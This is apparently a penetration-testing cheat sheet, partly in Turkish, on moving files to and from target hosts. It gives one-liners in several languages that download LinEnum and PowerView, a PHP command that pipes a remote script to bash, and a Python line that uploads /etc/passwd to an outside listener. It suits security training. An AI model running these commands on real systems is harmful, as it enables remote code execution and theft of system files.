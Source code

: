 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Transferring Files with Code

## Python

### Python 2 - Download

```bash
python2.7 -c 'import urllib; urllib.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### Python 3 - Download

```bash
python3 -c 'import urllib.request; urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP

### PHP Download with File_get_contents()

```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

### PHP Download with Fopen()

```bash
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### PHP Download a File and Pipe it to Bash

```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Other Languages

### Ruby - Download a File

```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

### Perl - Download a File

```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript

Aşağıda verilen script dosyasına bakalım:

```javascript title="wget.js" linenums="1"
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Herhangi bir dosya indirmek için bu dosyayı `cscript.exe` ile birlikte kullanabiliriz:

```batch
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript

Aşağıda verilen script dosyasına bakalım:

```vbscript title="wget.vbs" linenums="1"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

Herhangi bir dosya indirmek için bu dosyayı `cscript.exe` ile birlikte kullanabiliriz:

```batch
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## Upload Operations using Python3

### Starting the Python uploadserver Module

```bash
python3 -m uploadserver
```

### Uploading a File Using a Python One-Liner

```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

